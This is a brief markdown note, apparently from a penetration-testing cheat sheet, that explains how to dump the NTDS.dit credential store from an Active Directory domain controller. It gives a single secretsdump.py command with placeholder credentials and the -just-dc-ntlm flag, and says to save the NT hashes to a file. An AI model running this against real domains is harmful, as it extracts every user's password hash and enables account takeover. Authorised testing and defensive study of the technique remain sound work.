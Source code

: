 # Dumping NTDS.dit

use scretsdump against DC

```
secretsdump.py <domain>.local/<user>:'<passwd>'@ip -just-dc-ntlm
```

Dumps NTDS

save the dumps NT part of hash into a text file

